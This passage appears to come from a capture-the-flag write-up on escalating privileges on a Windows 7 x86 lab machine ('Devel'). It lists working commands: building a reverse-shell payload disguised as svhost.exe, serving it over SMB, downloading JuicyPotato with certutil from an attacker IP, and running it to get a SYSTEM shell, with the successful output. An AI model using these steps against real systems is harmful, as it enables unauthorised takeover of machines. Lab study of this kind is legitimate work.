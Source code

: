After failed to start **printspooferx64**, figured out that it's an x86 system

```bash
C:\ProgramData>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31
System Boot Time:          21/7/2023, 12:57:06
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
...
```

Run an smb server and host **juicy potato x86**, **msfvenom reverse shell** 

> Tried printspoofer and other potato methods, but only juicy potato worked well on this Windows 7 x86 machine
{: .prompt-tip }

```bash
mkdir smb&&cd smb

wget https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe -O jp.exe

msfpc windows stageless cmd tun0 1111
mv windows-shell-stageless-reverse-tcp-1111.exe svhost.exe

smbserver.py s . -smb2support
```

Download to programdata and run

> **Powershell Revshell With Juicy Potato**
> > https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato#powershell-rev
{: .prompt-tip }

```bash
cd C:\Programdata
certutil -urlcache -split -f http://10.10.14.70/jp.exe jp.exe
jp.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c \\10.10.14.70\s\svhost.exe" -t *
```

```bash
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```
